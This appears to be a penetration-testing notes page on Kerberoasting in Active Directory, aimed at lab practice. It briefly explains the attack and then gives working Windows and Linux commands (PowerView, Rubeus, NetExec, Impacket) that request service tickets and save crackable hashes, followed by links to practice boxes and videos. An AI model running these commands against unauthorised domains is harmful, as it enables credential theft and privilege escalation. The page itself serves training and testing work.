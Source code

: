 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: false
---
```


# Kerberoasting

## TL;DR

Kerberoasting is an attack on the ST and [SPNs](https://learn.microsoft.com/en-us/windows/win32/ad/service-principal-names). SPNs are unique IDs that Kerberos uses to map a service instance, for example MySQL, to a service sign-in account, such as `svc_mysql`, in whose, often privileged, context the service is running. The ST is encrypted with the service's account NTLM hash, so it can potentially be cracked. **Any domain user can request a ST from the DC for any SPN account**.

<figure><img src="../../../.gitbook/assets/kerberoasting_process.png" alt=""><figcaption><p>Figure 1: The Kerberos authentication process (image taken from <a href="https://www.optiv.com/insights/source-zero/blog/kerberos-domains-achilles-heel">here</a>).</p></figcaption></figure>

## Windows

{% tabs %}
{% tab title="PowerView" %}
```powershell
Get-DomainUser -Identity sqldev | Get-DomainSPNTicket -Format Hashcat
```
{% endtab %}

{% tab title="Rubeus" %}
{% code overflow="wrap" %}
```powershell
.\Rubeus.exe kerberoast /creduser:domain\user1 /credpassword:pass /user:targetUser /outfile:hash.txt /format:hashcat /nowrap
```
{% endcode %}
{% endtab %}
{% endtabs %}

## Linux

{% tabs %}
{% tab title="NetExec" %}
```bash
nxc ldap 192.168.0.104 -u user -p pass --kerberoasting output.txt
```
{% endtab %}

{% tab title="Impacket" %}
```bash
GetUserSPNs.py -dc-ip 172.16.5.5 DOMAIN/user -request -outputfile spns.lst
```
{% endtab %}
{% endtabs %}

## Practice

{% tabs %}
{% tab title="Active (Easy)" %}
{% content-ref url="../../../boxes/boxes/easy/active.md" %}
[active.md](../../../boxes/boxes/easy/active.md)
{% endcontent-ref %}
{% endtab %}

{% tab title="Sizzle (Insane)" %}
{% content-ref url="../../../boxes/boxes/insane/sizzle.md" %}
[sizzle.md](../../../boxes/boxes/insane/sizzle.md)
{% endcontent-ref %}
{% endtab %}
{% endtabs %}

## Resources

{% tabs %}
{% tab title="Video Tutorial" %}
{% embed url="https://www.youtube.com/watch?v=-3MxoxdzFNI" %}
Kerberoasting in 14 minutes!
{% endembed %}
{% endtab %}

{% tab title="GetUserSPNs" %}
{% embed url="https://www.youtube.com/watch?v=xH5T9-m9QXw" %}
How GetUserSPNs script work behind the scenes!
{% endembed %}
{% endtab %}

{% tab title="Tim Medin's Lecture" %}
{% embed url="https://www.youtube.com/watch?v=Jaa2LmZaNeU" %}
{% endtab %}

{% tab title="Kerberoasting" %}
{% embed url="https://adsecurity.org/?p=3458" %}
A great article detailing the Kerberoasting process.
{% endembed %}
{% endtab %}
{% endtabs %}
